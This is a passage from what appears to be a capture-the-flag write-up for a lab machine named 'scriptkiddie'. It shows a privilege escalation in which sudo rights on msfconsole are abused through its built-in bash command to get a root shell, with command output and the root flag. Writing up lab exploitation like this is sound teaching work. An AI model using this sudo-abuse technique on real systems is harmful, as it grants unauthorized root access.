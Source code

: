 Because the `pwn` user was able to execute the `msfconsole` tool with high privileges and the tool itself offered a builtin function to spawn a shell, it was possible to leverage this feature to obtain a full interactive root shell:

```bash
pwn@scriptkiddie:~$ sudo /opt/metasploit-framework-6.0.9/msfconsole -q
msf6 > bash
[*] exec: bash

root@scriptkiddie:/home/pwn# whoami && hostname && cat /root/root.txt && ifconfig -a
root
scriptkiddie
db90201a61bd45b56fe74fb7a44253ee
ens160: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.10.10.226  netmask 255.255.255.0  broadcast 10.10.10.255
        inet6 fe80::250:56ff:feb9:a9c3  prefixlen 64  scopeid 0x20<link>
        inet6 dead:beef::250:56ff:feb9:a9c3  prefixlen 64  scopeid 0x0<global>
        ether 00:50:56:b9:a9:c3  txqueuelen 1000  (Ethernet)
        RX packets 31355  bytes 6228551 (6.2 MB)
        RX errors 0  dropped 59  overruns 0  frame 0
        TX packets 20962  bytes 24340256 (24.3 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 53480  bytes 3798372 (3.7 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 53480  bytes 3798372 (3.7 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

![Pasted image 20210421184741.png](../../zzz_res/attachments/Pasted_image_20210421184741.png)
